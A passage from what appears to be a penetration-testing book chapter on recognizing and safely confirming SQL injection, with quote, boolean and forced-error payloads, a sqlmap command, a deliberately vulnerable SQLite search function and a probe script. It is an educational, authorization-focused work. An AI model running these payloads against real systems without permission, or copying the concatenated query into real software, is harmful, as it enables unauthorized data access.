


### 4.2 The First Probe: A Single Quote

I start almost every assessment with the same first move, because it's cheap, it's unambiguous when it works, and it's the smallest possible perturbation that tests the code/data boundary directly.

```
Normal request:   GET /products?id=42
Test request:     GET /products?id=42'
```

**What I'm looking for**, roughly in order of how strong a signal each one is:

1. **A raw database error message** in the response — the strongest possible signal. Something like `You have an error in your SQL syntax near '\'' at line 1` (MySQL-flavored) or `unterminated quoted string` (SQLite/PostgreSQL-flavored) tells you, directly, that your quote reached the database parser un-escaped.
2. **A generic HTTP 500** with no specific error text — a weaker signal (see Section 3.7.4's caution about conflating "server errored" with "server is injectable"), but still worth following up.
3. **A silent change in behavior** — the page returns zero results instead of the expected one, or redirects somewhere it didn't before. This is often what you get from an application that catches the underlying database exception and fails "gracefully," but the underlying query still broke.
4. **No observable change at all** — either the input never reaches a query, or it's being handled safely (parameterized, or the quote is being escaped/stripped before use).

**Note:** outcome 4 is not proof of safety through *every* code path that value might reach — recall second-order injection from Section 3.5. It only tells you this particular request, hitting this particular code path, didn't show a symptom from this particular probe.

#### 4.2.1 Testing the Full Family of Quote Characters

A single `'` covers the most common case, but I always test the small family of related characters too, because different backends and different query contexts use different delimiters:

```
'    — single quote (most common string delimiter)
"    — double quote (used by some DBs/contexts for strings, by others for identifiers)
`    — backtick (MySQL identifier delimiter)
)    — closing parenthesis (breaks queries built with function calls around the input)
\    — backslash (can itself have special escaping meaning in some DBs)
```

**Caution:** don't send all five in the same request. Testing them one at a time, and recording which specific character produced which specific behavior, is what turns "something happened" into a precise, reproducible finding later — exactly the kind of detail Chapter 8 will tell you a good report needs.


### 4.3 The Second Probe: A Harmless Boolean Pair

If the quote test produces no visible error but you're not ready to rule the parameter out, the next cheap check is a matched pair of requests that should be logically equivalent to "always true" and "always false," assuming the value is being interpreted as SQL rather than as inert data:

```
GET /products?id=42 AND 1=1
GET /products?id=42 AND 1=2
```

If the parameter is *not* injectable, both requests are nonsensical as far as the database is concerned (the literal string `"42 AND 1=1"` doesn't match any real `id`), so they should produce the **same** response — most likely both empty, or both a generic "not found." If the parameter *is* injectable, the first request behaves like a normal, valid lookup for `id=42` (because `1=1` is always true, so the `AND` doesn't filter anything out) while the second behaves like a lookup that can never match anything (because `1=2` is always false) — and those two outcomes should differ.

**This is, deliberately, the same test from Chapter 3's boolean-blind mechanism** — I'm introducing it here as a *detection* tool before Chapter 6 turns it into a full *extraction* methodology, because I think it's worth separating "does a differential exist at all" from "how do I exploit that differential systematically."


### 4.4 Reading Response Timing as a Cheap Third Signal

Even before committing to the full time-based methodology in Chapter 6, I find it worth taking a rough baseline timing measurement during this initial recognition phase, for one specific reason: if a request containing an unclosed quote or a malformed boolean condition takes noticeably, consistently longer than a normal request, that's sometimes a sign the database is doing something unusual under the hood — retrying a failed parse, running a more expensive execution plan, or (occasionally) already hitting a genuine time-based condition your input accidentally created. It's a weak, secondary signal on its own, but combined with signal 1 or 2 above, it strengthens the case that something about this parameter deserves a closer look.


### 4.5 A Realistic Recognition Checklist

Here's the actual checklist I run through per parameter, drawn from Chapter 2's inventory, before deciding whether to invest further time:

| Step | Action | What a positive signal looks like |
|---|---|---|
| 1 | Record a baseline: send the request unmodified, 2–3 times | Consistent response — content, length, status, and rough timing |
| 2 | Send a single quote in place of / appended to the value | DB-flavored error text, generic 500, or a silent behavior change |
| 3 | Repeat with `"`, `` ` ``, `)`, `\` individually | Any one producing a different symptom than the others is informative |
| 4 | Send the `AND 1=1` / `AND 1=2` boolean pair | Two requests producing genuinely different responses |
| 5 | Note rough timing across all of the above | Any consistent, repeated slowdown tied to a specific payload |
| 6 | Cross-reference against Chapter 2 — is this parameter type one that's commonly under-tested (header, nested JSON field, sort parameter)? | If yes, weight it higher even on a weak signal — it's less likely anyone else already found this |

If steps 2–5 produce nothing across a parameter, I don't necessarily close the book on it forever — but I move on to the next candidate rather than escalating effort on a cold lead.


### 4.6 Automating the First Pass, Without Skipping the Thinking

For applications with a large number of parameters (Chapter 2's inventory can easily produce dozens per application), doing every step above by hand doesn't scale. Tools like **sqlmap** can automate exactly this recognition phase — sending a battery of quote, boolean, and timing probes across a specified parameter and reporting which ones show a differential.

```bash
# A conservative first pass — level/risk defaults, single target parameter,
# batch mode to avoid interactive prompts during an initial sweep
sqlmap -u "https://target.example/products?id=42" -p id --batch --level=1 --risk=1
```

**Note:** I deliberately show the *conservative* invocation here, not an aggressive `--level=5 --risk=3` sweep, because this chapter is about recognition, not extraction. A low level/risk pass asks the same lightweight questions Sections 4.2–4.4 describe, without attempting the more invasive, higher-risk techniques (some of sqlmap's higher-risk tests include payloads that can modify data on genuinely vulnerable, unhardened targets) that are only appropriate once you have explicit authorization for a deeper assessment and a clear understanding of what those tests do.

**Caution:** automated tools are excellent at breadth — sweeping many parameters quickly — but they are not a substitute for the judgment in Section 4.5's last row. A tool has no way to know that the `X-Forwarded-For` header on this particular application is worth extra attention because it's also being trusted for access control; that kind of contextual reasoning is still on you.


### 4.7 What I Do the Moment I Get a Positive Signal

The instinct I had to actively train out of myself early on was jumping straight from "I see a differential" to trying to extract as much data as possible immediately. That's the wrong next step, for a few concrete reasons:

1. **You don't yet know which category from Chapter 3 you're dealing with.** Confirming *which* mechanism (error-based, boolean, time-based) is at play, cleanly and deliberately, is what Chapters 5 and 6 are for — and using the wrong technique against the wrong category wastes requests and muddies your evidence.
2. **A single differential is evidence of a hypothesis, not proof of a vulnerability**, per Section 3.7.4. I want at least one more independent confirmation before I treat this as a real finding.
3. **Scope and impact should be decided deliberately, not by momentum.** Chapter 8 covers this directly: for a bug bounty report, proving you can read *one* out-of-scope value is almost always sufficient. Continuing to extract more data than necessary to prove the point adds legal and ethical risk without adding proportional value to the report.

So the actual next step, once I have a genuine positive signal, is to write down exactly what I sent and exactly what I observed — verbatim request and response — before touching the target again. That log is both my testing methodology and the first draft of my eventual report.


### 4.8 A Worked Recognition Walkthrough

To make this concrete, here's an abbreviated version of an actual recognition pass I'd run against a hypothetical search endpoint, `GET /api/search?q=<value>`, structured exactly per the checklist in Section 4.5.

```
Step 1 — Baseline
  GET /api/search?q=laptop
  → 200 OK, 14 results, ~180ms

Step 2 — Single quote
  GET /api/search?q=laptop'
  → 200 OK, 0 results, ~185ms
  (No error text — but note the count dropped to zero, an unexpected
  behavior change worth tracking as a weak signal)

Step 3 — Character family
  GET /api/search?q=laptop"     → 200 OK, 14 results (unchanged — " not being
                                    treated specially in this context)
  GET /api/search?q=laptop`     → 200 OK, 14 results (unchanged)
  GET /api/search?q=laptop)     → 500 Internal Server Error (new signal — the
                                    parenthesis broke something a plain quote didn't)

Step 4 — Boolean pair
  GET /api/search?q=laptop' AND '1'='1
  → 200 OK, 14 results

  GET /api/search?q=laptop' AND '1'='2
  → 200 OK, 0 results

Step 5 — Timing
  All of the above returned in 170–210ms — no meaningful timing signal yet

Conclusion: Steps 2 and 4 together (quote changes result count to zero;
boolean pair produces a genuine true/false differential) are two
independent signals implicating the same mechanism — strong enough to
move to Chapter 5's boolean-based confirmation methodology.
```

I include this walkthrough specifically because I think seeing the *reasoning trail* — not just the final payload that "worked" — is what actually transfers as a skill. Anyone can copy `' AND '1'='1`. Knowing why you tried it, what you expected each outcome to mean, and how you'd interpret a null result, is the part worth practicing deliberately.


### 4.10 Recognition Across Non-Standard Entry Points

Section 4.8's walkthrough used a simple query-string parameter because it's the easiest to show in a compact example, but the exact same five-step checklist applies, with small mechanical adjustments, to every entry point from Chapter 2. I want to walk through the adjustments explicitly, because "just do the same thing" undersells how different the *tooling* needs to be even when the *logic* is identical.

#### 4.10.1 Recognition Inside a JSON Body

```
Baseline:
POST /api/profile
{"bio": "Software engineer"}
→ 200 OK

Quote test:
POST /api/profile
{"bio": "Software engineer'"}
→ 500 Internal Server Error, body contains a raw driver stack trace
```

The mechanics are identical to a query-string test — I'm still injecting a single quote and watching for a shape change — but I have to remember that the JSON encoding itself uses `"` as a structural character, so if I want to test an *unescaped* double quote reaching the database, I need to send `\"` inside the JSON string (which JSON-decodes to a literal `"` by the time it reaches the application), not a raw `"` that would just break the JSON body itself before it ever reaches my target code.

#### 4.10.2 Recognition Inside a Header

```
Baseline:
GET /dashboard
User-Agent: Mozilla/5.0
→ 200 OK

Quote test:
GET /dashboard
User-Agent: Mozilla/5.0'
→ 200 OK (identical response — no visible differential)
```

This is exactly the situation Chapter 3 calls out as a likely candidate for *blind*-only confirmation: the header value is probably being logged into a database asynchronously, or on a code path that never reflects anything back into this response. A "no differential" result here does **not** mean the header is safe — it means the *content-based* channel is unavailable, and I should specifically try the boolean-pair test (which doesn't require content reflection at all, only a behavioral consequence) and, if that's also silent, the timing test from Section 4.4, before concluding anything.

#### 4.10.3 Recognition Inside a Sort/Order Parameter

```
Baseline:
GET /products?sort=price
→ 200 OK, products ordered by ascending price

Quote test:
GET /products?sort=price'
→ 500 Internal Server Error
```

Sort parameters are worth calling out specifically because — as Chapter 2 flagged — they're commonly concatenated even in codebases that parameterize everything else, precisely because a placeholder can't stand in for a column name. A quote breaking a `sort` parameter, specifically, is one of the higher-value signals in this entire chapter, because it's disproportionately likely to indicate a gap in an otherwise well-defended application.


### 4.11 Deciding Whether a Signal Is Worth Pursuing Further

Not every positive signal deserves the same amount of follow-up time, and I think it's worth being explicit about how I triage, because a research mindset can pull you toward the most *interesting* signal rather than the most *important* one.

| Factor | Weighs toward pursuing further | Weighs toward deprioritizing |
|---|---|---|
| Where the parameter sits (Ch. 2) | Header, nested field, sort parameter — commonly under-tested | Primary search box — heavily tested by everyone already |
| Strength of signal | DB-flavored error text, clean boolean differential | A single ambiguous 500 with no other corroboration |
| Reachable data, if confirmed | Authentication tables, PII, payment data | A public, already-readable content table |
| Program/engagement scope | Explicitly in scope, no special restrictions | Ambiguous scope, or explicitly excluded asset |

I bring this up here, before Chapters 5–8 go deep on the parameters that *do* get pursued, because triage is itself a skill worth naming — the goal of this part of the book isn't "confirm every possible signal exhaustively," it's "find and prove real, reportable impact efficiently and responsibly."

#### 4.11.1 A Note on Rate Limits and Politeness

One practical constraint I want to name explicitly, because it affects triage decisions in Section 4.11's table as much as any technical factor: every request in this chapter's checklist is a real request against a real system, consuming real capacity. Even a fully authorized engagement typically comes with expectations — sometimes contractual, sometimes just professional courtesy — around request rate and total volume. I build a small delay between probes by default, and I treat any explicit rate-limit response (HTTP 429, or a program's documented request-per-minute cap) as a hard constraint, not a target to route around. Chapter 13 covers what a defender's detection tooling sees when a tester doesn't observe this discipline, which is a useful perspective to keep in mind even from the testing side of the table.

### 4.12 Building a Personal Recognition Template

I keep a simple template file for every engagement, because rebuilding this structure from memory every time invites shortcuts. Something close to this:

```markdown
## Target: <application/endpoint>
## Parameter: <name, location per Ch.2 inventory>
## Date/time:

### Baseline
- Request:
- Response (status, length, rough timing):

### Quote family test
- ' :
- " :
- ` :
- ) :
- \ :

### Boolean pair test
- AND 1=1 result:
- AND 1=2 result:

### Timing notes

### Conclusion / next step
```

**Note:** this template exists for the same reason a lab notebook exists in any experimental discipline — not because I distrust my memory in the moment, but because six candidate parameters into a session, memory reliably blurs together, and a written record is what lets Chapter 8's report be accurate rather than reconstructed after the fact.


### 4.9 Chapter Summary

- Recognition is about testing whether an input changes the **shape** of a query, not just the value plugged into an unchanged shape — that's the practical, testable version of Chapter 1's code/data boundary.
- The cheapest, highest-signal first probe is a single quote, followed by a small family of related delimiter characters (`"`, `` ` ``, `)`, `\`), tested individually and recorded separately.
- A matched `AND 1=1` / `AND 1=2` boolean pair is the second cheap probe — a genuine differential between the two is strong evidence, independent of whether a quote produced a visible error.
- Rough response timing, even at this early stage, is a useful secondary signal when combined with a content-based one.
- Automated tools like sqlmap can scale this recognition phase across many parameters, but should be run conservatively (low level/risk) for an initial sweep, and never substitute for the contextual judgment about *which* parameters (per Chapter 2) deserve extra attention.
- The moment you get a genuine positive signal, the right next step is precise documentation of exactly what you sent and observed — not immediate, momentum-driven extraction.
- A single differential is a hypothesis. The next two chapters are about turning that hypothesis into a clean, defensible, minimally invasive confirmation.

Chapter 5 picks up exactly where this one leaves off: taking a candidate injection point identified here and confirming, cleanly, whether it's boolean-based or error-based — without causing any damage to the target along the way.

## Confirming Boolean and Error-Based Injection Safely

### From "Interesting" to "Proven"

Chapter 4 left off at a hypothesis: a differential, a stray error, a boolean pair that behaved differently. This chapter is about the specific, disciplined next step — turning that hypothesis into a confirmation you'd be comfortable defending to a skeptical triager, a client's engineering lead, or your own future self reading the report six months later. I want to be precise about what "confirmed" means here, because I think a lot of the credibility problems I've seen in real reports come from people skipping this step and writing up a hypothesis as if it were already a proven finding.

**The standard I hold myself to:** a finding is confirmed when I have reproduced the differential at least twice, with a clean explanation of *why* the observed behavior can only be explained by SQL interpreting my input as code, and — critically — I've done this using the *minimum* payload necessary to prove the point, not the most data I could extract.


### 5.1 Confirming Error-Based Injection

If Chapter 4's quote test produced a raw database error, confirmation here is mostly about ruling out the false-positive scenario from Section 3.7.4 — an unrelated bug that happened to be triggered by a special character, rather than a genuine SQL parsing failure.

#### 5.1.1 The Minimal Confirmation Pair

```
Test A (should error, if genuinely SQL-related):
  ?id=42'

Test B (should NOT error — closes the string properly,
so if the underlying cause were unrelated to SQL parsing,
both A and B would behave identically):
  ?id=42''
```

The logic here: a single unescaped quote breaks a string literal's syntax (`'42''` is malformed SQL — an opened, unterminated string). Two quotes in the right position, however, is exactly how you *escape* a literal quote character inside a standard SQL string — so `?id=42''` should, if the underlying issue is genuinely about SQL string parsing, produce a *valid* query again (searching for the literal string `42'`), and the error should disappear.



I ran this exact pattern against my own SQLite test harness from Chapter 1 to make sure the logic holds up in practice, not just in theory — and it's a good thing I did, because my first draft of this section, before I actually executed it, had the wrong output:

```
>>> vulnerable_login("42'", "x")
  SQL: SELECT id, username, is_admin FROM users WHERE username = '42'' AND password = 'x'
sqlite3.OperationalError: unrecognized token: "x'"

>>> vulnerable_login("42''", "x")
  SQL: SELECT id, username, is_admin FROM users WHERE username = '42''' AND password = 'x'
[]
```

This matches the theory cleanly: the single quote leaves the string unterminated, and SQLite's parser throws an `OperationalError` because it hits a stray token (`x'`) it can't make sense of. Doubling the quote, by contrast, produces valid SQL again — a string literal containing a single literal `'` character — so the query parses and runs successfully, correctly returning no rows (since no username is literally `42'`). No error at all on the second attempt, which is exactly the differential Section 5.1.1's flowchart predicts for a genuinely SQL-related cause.

#### 5.1.2 A More Reliable Confirmation: Forcing a Controlled, Informative Error

Rather than relying on quote-doubling alone — which requires the error/no-error distinction to be legible from the outside, and which some applications catch and mask into a generic error page either way — a cleaner, more informative confirmation is to force an error whose *content* proves the database evaluated your expression, not just that something broke.

```sql
-- MySQL — deliberately malformed XPath containing a benign, verifiable value
' AND extractvalue(1, concat(0x7e, 'confirm-12345'))--
```

If the resulting error message contains the literal string `confirm-12345`, that's unambiguous: the database evaluated the `concat()` function, embedded your marker string into the forced error, and the application printed that error verbatim. There's no alternate explanation for that specific string appearing in an XPath error message other than the database processing your injected SQL.

**Note:** I chose a marker string (`confirm-12345`) rather than jumping straight to `@@version` or a real table name, deliberately, because the goal at this stage is *confirmation*, not extraction. Prove the mechanism first, with a value that carries no sensitive information, before deciding — separately, and per Chapter 8's judgment call — whether extracting anything further is even necessary for the report.


### 5.2 Confirming Boolean-Based Injection

If Chapter 4's `AND 1=1` / `AND 1=2` pair produced a genuine differential, the confirmation goal here is ruling out the noise sources from Section 3.7.1–3.7.2 (dynamic content, caching, session state) before trusting the signal as real.

#### 5.2.1 The Repeatability Test

```
Run 1: ?id=42 AND 1=1  → 14 results
Run 2: ?id=42 AND 1=1  → 14 results   (repeat, same request)
Run 3: ?id=42 AND 1=2  → 0 results
Run 4: ?id=42 AND 1=2  → 0 results    (repeat, same request)
```

If both the "true" and "false" conditions independently reproduce consistently across repeats, that's a strong sign the differential isn't noise — a flaky, dynamic-content-driven difference wouldn't reliably reproduce identical output across all four runs.

#### 5.2.2 The Inverse-Logic Test

A second, independent way to confirm the same hypothesis: flip the logic and verify the *opposite* pattern emerges. If `1=1` producing results and `1=2` producing none is genuinely due to SQL evaluating a boolean condition, then `1=2 OR 1=1` (which should always be true, regardless of the leading condition) should produce the *same* result as the original `1=1` case, and `1=1 AND 1=2` (a compound condition that's always false, no matter what) should produce the same *empty* result as the original `1=2` case:

```
?id=42 AND (1=2 OR 1=1)   → should match the "true" baseline (14 results)
?id=42 AND (1=1 AND 1=2)  → should match the "false" baseline (0 results)
```

This is a useful trick because it tests your hypothesis about the *mechanism* (real boolean logic being evaluated) rather than just re-testing the same two literal strings you started with — if some completely unrelated factor happened to correlate with the literal substrings `"1=1"` versus `"1=2"` (a caching key based on request text, for instance, rather than actual query evaluation), this inverse test would break that coincidental correlation and expose it.

#### 5.2.3 Locating the Precise Injection Point Within the Parameter

One thing I found useful, and that a lot of introductory material skips: once boolean injection is confirmed, it's worth spending one more round of testing to understand *exactly* how your input is being wrapped by the application, because that shapes every subsequent payload in Chapters 6 and 7.

```
?id=42' AND '1'='1        (assumes input is wrapped in single quotes)
?id=42" AND "1"="1        (assumes double quotes)
?id=42) AND (1=1           (assumes input is wrapped in a function call or parenthesized expression)
?id=42 AND 1=1              (assumes input is a bare, unquoted numeric context)
```

Whichever variant produces the clean, expected differential tells you the surrounding query shape — and every payload from here forward should use that same wrapping, rather than guessing anew each time.


### 5.3 Working Through a Full Confirmation, Start to Finish

To tie Sections 5.1 and 5.2 together, here's a complete, real confirmation sequence — using my Chapter 1 SQLite harness again, so every line of output below is genuinely produced by running the code, not reconstructed from memory. I'll say up front that my first attempt at this example did *not* work as I expected — I initially reached for a search term that matched real rows on its own, which meant my "true" and "false" boolean payloads both landed on results that were really being driven by the underlying `LIKE` match, not by my injected condition. That's exactly the kind of confound Section 3.7.2 warns about, and I only caught it because I actually ran the code rather than writing the expected output from memory. Here's the corrected version, using a search term (`zzzznotreal`) that matches nothing on its own, so any results that *do* appear can only be explained by the injected boolean logic:

```python
def vulnerable_search(term):
    query = "SELECT username FROM users WHERE username LIKE '%" + term + "%'"
    print("  SQL:", query)
    cur.execute(query)
    return cur.fetchall()
```

```
>>> vulnerable_search("zzzznotreal")
  SQL: SELECT username FROM users WHERE username LIKE '%zzzznotreal%'
[]

>>> vulnerable_search("zzzznotreal' OR '1'='1' -- ")
  SQL: SELECT username FROM users WHERE username LIKE '%zzzznotreal' OR '1'='1' -- %'
[('alice',), ('bob',), ('admin',)]

>>> vulnerable_search("zzzznotreal' OR '1'='2' -- ")
  SQL: SELECT username FROM users WHERE username LIKE '%zzzznotreal' OR '1'='2' -- %'
[]

>>> vulnerable_search("zzzznotreal' OR ('1'='2' OR '1'='1') -- ")
  SQL: SELECT username FROM users WHERE username LIKE '%zzzznotreal' OR ('1'='2' OR '1'='1') -- %'
[('alice',), ('bob',), ('admin',)]

>>> vulnerable_search("zzzznotreal' AND '1'='2' -- ")
  SQL: SELECT username FROM users WHERE username LIKE '%zzzznotreal' AND '1'='2' -- %'
[]
```

This is a clean, complete confirmation: the baseline (a term matching no real row) returns nothing; the `OR '1'='1'` payload returns all three rows, proving the injected condition — not the `LIKE` match — is what's driving the result; the `OR '1'='2'` control returns nothing, ruling out the possibility that any `OR` clause at all would trigger a match; the inverse-logic check (`OR ('1'='2' OR '1'='1')`) independently reproduces the "true" result through different literal substrings, ruling out a coincidental string-matching explanation; and the `AND '1'='2'` payload confirms the false case one more way. Five results, three of them logically cross-checking each other, all pointing to the same conclusion.

**The lesson I want to highlight from my own mistake here:** even when you know the theory cold, the exact query shape around your injection point (in this case, a `LIKE '%...%'` wrapper) can make an otherwise-correct-looking payload fail for reasons that have nothing to do with whether the target is vulnerable. Testing against a target you control, and actually reading the output rather than assuming it, is not optional — it's how you catch exactly this kind of gap before it ends up in a report.


### 5.4 Confirming Through Non-Reflected Channels

Sections 5.1–5.3 all assumed the differential is visible in the response body — but Chapter 2 flagged headers, cookies, and other non-reflected inputs as common, under-tested entry points, and Chapter 4 already noted that a quote test against a header often shows *no* content-based signal at all. The confirmation methodology doesn't change in that situation — it just has to rely on a **behavioral** consequence rather than a **content** one.

#### 5.4.1 Example: Confirming Through a Silent Logging Channel

Suppose an application logs the `X-Client-Version` header on every request, into a query built by concatenation, but never reflects the header's value back into any response. A content-based differential is unavailable by definition. What I look for instead is any *behavioral* fork the injected condition could plausibly cause elsewhere in the same request:

```
Baseline:
  X-Client-Version: 1.0
  → 200 OK, dashboard loads normally

Boolean true:
  X-Client-Version: 1.0' AND '1'='1
  → 200 OK, dashboard loads normally (matches baseline)

Boolean false:
  X-Client-Version: 1.0' AND '1'='2
  → 500 Internal Server Error (the logging INSERT itself fails,
    because the malformed trailing quote breaks the query —
    this is a behavioral signal, not a content one, but it's
    just as valid a differential)
```

The key insight — and the reason I wanted to spell this out rather than leave it implied — is that boolean-based confirmation doesn't require the *result* of your condition to be readable. It only requires *some* externally observable consequence to differ between the true and false cases, and an unhandled exception versus a clean 200 is exactly that, even when neither response contains a single byte of leaked data.

#### 5.4.2 When Even Behavioral Signals Are Silent

If neither content nor behavior differs at all — the application swallows every exception identically, regardless of what you send — that's precisely the situation Chapter 6 exists for. Time is the last channel available when every other observable output has been normalized away, and it's worth remembering that "no visible differential" and "not injectable" are not the same claim.


### 5.5 Documenting a Confirmed Finding

Before moving on, I want to close the loop on Chapter 4's recognition template. Once a finding graduates from "candidate" to "confirmed" by this chapter's standard, I expand my notes into something closer to what Chapter 8 will eventually turn into a full report:

```markdown
## Finding: SQL Injection — <parameter>, <endpoint>
## Status: CONFIRMED (boolean-based / error-based)
## Confirmation evidence:
  1. Baseline request/response
  2. Quote test — raw error / behavioral change observed
  3. Quote-doubling or forced-error test — error disappears/appears as predicted
  4. Boolean pair — repeated twice, consistent
  5. Inverse-logic check — independently reproduces same true/false pattern
## Minimum payload used:
## Data exposed (if any) during confirmation — kept to the minimum necessary:
## Suspected DB engine (per Section 3.6 fingerprint, if attempted):
```

**Note:** I keep "minimum payload used" and "data exposed" as their own explicit fields, deliberately, because writing them down at confirmation time — rather than reconstructing them later from memory when drafting the report — is what keeps Chapter 8's eventual writeup honest and precise.


### 5.6 What "Confirmed" Actually Unlocks

I want to be explicit about the boundary here, because it's the same one I set for the whole book: once boolean or error-based injection is confirmed by the methods in this chapter, you have what you need for a **high-confidence report**, per Chapter 8. You do not need to go further and dump a full table's contents to prove the point. Demonstrating that you can read *one* piece of data you shouldn't be able to read — a single username from a table the application never intended to expose through this endpoint, or a single forced error containing a marker string you supplied — is, in the overwhelming majority of bug bounty programs and pentest methodologies I've read, treated as sufficient proof of impact.

**Caution:** the temptation to keep going, purely because the technique is working and it's satisfying to see it work, is real — I've felt it myself testing my own throwaway lab environments, let alone a real, in-scope target. Resisting it isn't just an ethical nicety; over-extraction can turn an authorized, well-scoped test into something that exceeds a program's rules of engagement, and can turn a clean, well-received report into one that raises legal or trust concerns for no additional benefit.


### 5.7 Tooling That Makes This Easier

Everything in this chapter can be done by hand with a browser and a notepad, and I'd genuinely recommend doing it by hand at least once so the reasoning is internalized rather than delegated — but for repeatability testing specifically, manual repetition is tedious and error-prone in exactly the way that erodes confidence in a finding.

#### 5.8.1 Burp Suite's Repeater and Comparer

I lean on **Repeater** to fire the same request multiple times with small, controlled edits (swapping only the injected condition, leaving everything else byte-identical), and **Comparer** to diff two responses side by side — which turns "I think these look the same" into a precise, word-level or byte-level diff that either confirms or refutes the differential far more rigorously than eyeballing two browser tabs.

```
1. Send baseline request to Repeater
2. Duplicate the tab, modify only the injected parameter
3. Send both, save each response to Comparer
4. Run a word-level diff
   → If the only difference is exactly the content you'd expect from
     the injected condition (row count, presence/absence of specific
     rows), that's strong, precise confirmation
   → If unrelated content also differs (timestamps, session tokens,
     rotating promotional banners), that's exactly the noise Section
     3.7.2 warns about, and it belongs in your baseline-variance
     assessment, not your confirmation evidence
```

#### 5.8.2 A Small Python Harness for Repeatability

For cases where I want a clean, scripted repeatability check rather than manual clicking, a short script does the job without needing a full framework:

```python
import requests

BASE = "https://target.example/api/search"
TRUE_PAYLOAD  = "zzzznotreal' OR '1'='1' -- "
FALSE_PAYLOAD = "zzzznotreal' OR '1'='2' -- "

def probe(payload, runs=3):
    results = []
    for _ in range(runs):
        r = requests.get(BASE, params={"q": payload}, timeout=10)
        results.append((r.status_code, len(r.content)))
    return results

print("TRUE condition, 3 runs: ", probe(TRUE_PAYLOAD))
print("FALSE condition, 3 runs:", probe(FALSE_PAYLOAD))
```

If the `TRUE` runs consistently agree with each other, the `FALSE` runs consistently agree with each other, and the two groups consistently differ from one another, that's the repeatability evidence Section 5.2.1 asks for, captured automatically and precisely rather than approximated by memory across several manual browser reloads.

**Caution:** even a small script like this is still generating real traffic against a real target. Keep `runs` low (2–3 is normally enough to establish consistency) and add a short delay between requests, per Section 4.11.1's rate-limit discussion — this is a confirmation tool, not a load generator.

### 5.8 Chapter Summary

- Confirmation is about proving *why* an observed differential can only be explained by SQL interpreting input as code — not just re-observing the same differential a second time.
- Error-based confirmation is strengthened by a quote-doubling test — verified in this chapter against a real target, where the error correctly disappeared once the quote was properly escaped, exactly as the underlying string-parsing theory predicts — and, more robustly, by forcing an error that embeds a benign, verifiable marker string you supplied yourself.
- Boolean-based confirmation is strengthened by a repeatability test and an inverse-logic test that rules out coincidental, non-SQL explanations for a differential. My own first attempt at a worked example in this chapter picked a search term that accidentally confounded the result with a real data match — a mistake I only caught by actually running the code, which is itself the chapter's central lesson.
- When a parameter reflects nothing into the response at all (headers, silently-logged fields), confirmation still works — it just has to rely on a *behavioral* differential (an unhandled exception, a status code change) rather than a content-based one.
- A confirmed finding should be documented immediately, with the minimum payload used and any data exposed recorded explicitly — that record is the raw material Chapter 8's report will be built from.
- Once boolean or error-based injection is cleanly confirmed, that is almost always sufficient evidence for a professional report — further extraction should be a deliberate, scoped decision, not momentum.

